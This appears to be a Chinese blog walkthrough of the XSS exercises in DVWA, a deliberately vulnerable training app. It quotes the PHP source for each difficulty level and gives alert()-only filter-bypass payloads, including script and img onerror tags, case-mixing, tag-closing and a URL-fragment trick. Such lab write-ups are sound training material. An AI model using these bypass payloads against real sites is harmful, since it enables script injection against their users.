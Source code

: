 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      DVWA之XSS    # 标题 
subtitle:    DVWA  #副标题
date:       2020-08-02       # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - DVWA
  
--- 
```


[xss-labs](https://yanmie-art.github.io/tags/#XSS)

https://www.freebuf.com/articles/web/40520.html

https://www.freebuf.com/articles/web/42727.html

https://www.freebuf.com/column/1356

## XSS (DOM)

DOM，全称Document Object Model，是一个平台和语言都中立的接口，可以使程序和脚本能够动态访问和更新文档的内容、结构以及样式。

DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。

在网站页面中有许多页面的元素，当页面到达浏览器时浏览器会为页面创建一个顶级的Document object文档对象，接着生成各个子文档对象，每个页面元素对应一个文档对象，每个文档对象包含属性、方法和事件。可以通过JS脚本对文档对象进行编辑从而修改页面的元素。也就是说，客户端的脚本程序可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。基于这个特性，就可以利用JS脚本来实现XSS漏洞的利用。

#### Low

```
<?php

# No protections, anything goes

?> 
```

直接搞`?default=<script>alert()</script>`

#### Medium

```
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?> 
```

过滤了`<script>`标签，闭合换其他标签即可。

	?default=English</option></select><img src='x' onerror='alert(1)'>

## High

```
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?> 
```

可以看到，防御已经非常完善了，传入的参数如果不是French、English、German、Spanlish这四种字符串的话，就会直接跳到?default=English。但是，绕过方法还是有的。

使用#定位符，#号后面的字符不会提交给PHP服务器。输入：

	?default=English#<script>alert(/xss/)</script>

#### Impossible

```
<?php

# Don't need to do anything, protction handled on the client side

?> 
```

测试一下

	?default=<script>alert(/xss/)</script>

![atctqH.png](https://s1.ax1x.com/2020/08/02/atctqH.png)

F12看到js代码变了。

```
<script>
	if (document.location.href.indexOf("default=") >= 0) {
			var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
			document.write("<option value='" + lang + "'>" + (lang) + "</option>");
			document.write("<option value='' disabled='disabled'>----</option>");
		}
					    
	document.write("<option value='English'>English</option>");
	document.write("<option value='French'>French</option>");
	document.write("<option value='Spanish'>Spanish</option>");
	document.write("<option value='German'>German</option>");
</script>
```

可以看到前端代码中使用了`(lang)`代替了`decodeURI(lang),(lang)`是经过url编码后的数据，所以我们输入的任何内容都会经过url编码后赋值给lang(紧接着赋值给标签`<option>`)，所以就不存在XSS漏洞了。

可以看到网页插入的是我们输入内容url编码后的内容。

## XSS (Reflected)

#### Low

```
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 
```

没有任何过滤，直接打。`<script>alert("xss")</script>`

#### Medium

```
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
```

* str_replace() 函数以其他字符替换字符串中的一些字符（区分大小写）

这里增加了对标签<script>的过滤，

我们可以大小写绕过、双写绕过、其他标签绕过。

	<Script>alert()</SCript>


#### High

```
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
```

* preg_replace — 执行一个正则表达式的搜索和替换

通过正则匹配特征标签进行过滤，避免了通过大小写和双写绕过（在正则表达式中，i表示忽略大小写差异）的情况，

可以使用其他标签绕过：

	<img src=1 onerror="alert(/xss/)">

#### Impossible

```
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

* htmlspecialchars — 将特殊字符转换为 HTML 实体

还有csrf的token验证防止csrf,使用htmlspecialchars避免xss.

## XSS (Stored)

#### Low

```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?> 
```

这里对sql注入做了预防，但是没对xss预防。

![atRyQK.png](https://s1.ax1x.com/2020/08/02/atRyQK.png)

	<script>alert(/xss/)</script>

存储型xss，每当我们访问就会执行恶意的xss.

#### Medium

```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?> 
```

* strip_tags — 从字符串中去除 HTML 和 PHP 标记

利用`str_replace`对`<scripe>`标签做了过滤。

分析源代码,可以看到对$message参数做了很严格的过滤(进行html实体转义以及转义SQL语句中使用的特殊字符，杜绝了对$message关于xss的利用),但对$name参数做的过滤不严格,只是替换<script>以及转义SQL语句中使用的特殊字符,可以使用别的html标签对$name参数的防护进行绕过.

这里对长度限制了，所以F12更改即可。

![atff2t.png](https://s1.ax1x.com/2020/08/02/atff2t.png)

#### High

```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?> 
```

可以看到相比较中级而言，高级对$nam参数多了对<script>严格的过滤,没有对别的标签做过滤,但可以通过别的html标签来进行绕过


<body οnlοad=alert('xss')>

<a href='' οnclick=alert('xss')>click</a>

#### Impossible

```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = stripslashes( $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $name = htmlspecialchars( $name );

    // Update database
    $data = $db->prepare( 'INSERT INTO guestbook ( comment, name ) VALUES ( :message, :name );' );
    $data->bindParam( ':message', $message, PDO::PARAM_STR );
    $data->bindParam( ':name', $name, PDO::PARAM_STR );
    $data->execute();
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

这个难度加上了对CSRF攻击的防御，缩小了XSS利用范围，还将特殊字符转化为HTML实体如>,<,",',&



